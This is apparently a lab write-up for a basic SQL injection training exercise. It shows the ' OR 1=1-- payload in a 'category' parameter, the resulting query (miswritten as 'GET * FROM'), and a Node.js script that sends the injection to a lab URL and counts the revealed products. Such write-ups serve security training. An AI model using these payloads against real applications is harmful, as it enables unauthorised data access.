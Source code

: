 ```yaml
---
description: >-
  In Lab One, we see a simple SQL injection vulnerability in a WHERE clause
  allowing for the retrieval of hidden data.
---
```


# 1 - Retrieve Hidden Data

### Notes

The SQLi exists in the `category` query parameter used by the product category filter feature:

```http
GET /filter?category=%27+OR+1=1-- HTTP/1.1
```

The underlying query therefor becomes something like:

```sql
GET * FROM products WHERE category='' OR 1=1--';
```

### Scripted Solution

```javascript
const { JSDOM } = require('jsdom')
require('dotenv').config({ path: './.env' })

/**
 * Run exploit.
 */
async function main() {
  const levelUrl = process.env.LEVEL_URL

  // Get number of products visible on lab home page
  console.log('Getting home page product count...')
  const homeDom = await JSDOM.fromURL(levelUrl)
  const homeProductNodes = homeDom.window.document.querySelectorAll(
    '.container-list-tiles div'
  )
  console.log(`Number of home page products: ${homeProductNodes.length}.`)

  // Get number of products after SQL injection exploit
  console.log('Performing SQLi and getting updated product count...')
  const SQLi = "'+OR+1=1--"
  const SQLiDom = await JSDOM.fromURL(`${levelUrl}/filter?category=${SQLi}`)
  const SQLiProductNodes = SQLiDom.window.document.querySelectorAll(
    '.container-list-tiles div'
  )
  console.log(`Number of home page products: ${SQLiProductNodes.length}.`)
}

main()
  .then(() => process.exit(0))
  .catch((error) => {
    console.error(error)
    process.exit(1)
  })
```
